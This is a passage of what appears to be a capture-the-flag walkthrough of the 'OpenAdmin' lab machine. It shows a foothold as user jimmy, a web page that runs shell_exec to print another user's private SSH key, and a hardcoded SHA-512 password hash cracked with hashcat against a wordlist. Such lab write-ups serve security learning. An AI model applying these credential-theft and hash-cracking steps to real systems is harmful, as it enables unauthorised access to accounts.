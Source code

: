 ```bash
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Jun 25 10:36:06 2020 from 10.10.14.9
jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```

We have one password and two usernames so we could've tried them ourselves instead of using `hydra`.

```bash
jimmy@openadmin:/home$ ls -R
.:
jimmy  joanna

./jimmy:
ls: cannot open directory './joanna': Permission denied
```

We're logged in as Jimmy via SSH, but we still don't have access to a user.txt file.

```bash
jimmy@openadmin:/var/www$ ls
html  internal  ona
jimmy@openadmin:/var/www$ cd internal/
jimmy@openadmin:/var/www/internal$ ls
index.php  logout.php  main.php
jimmy@openadmin:/var/www/internal$ cat main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
jimmy@openadmin:/var/www/internal$ cat index.php
...
if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
...
```

```bash
luc@kali:~/OpenAdmin$ echo '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1' > hash
luc@kali:~/OpenAdmin$ hashcat --example-hashes
...
MODE: 1700
TYPE: SHA2-512
HASH: 82a9dda829eb7f8ffe9fbe49e45d47d2dad9664fbb7adf72492e3c81ebd3e29134d9bc12212bf83c6840f10e8246b9db54a4859b7ccd0123d86e5872c1e5082f
PASS: hashcat
...
luc@kali:~/OpenAdmin$ hashcat -m 1700 hash /usr/share/seclists/Passwords/dutch_common_wordlist.txt
...
00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1:Revealed
...
```
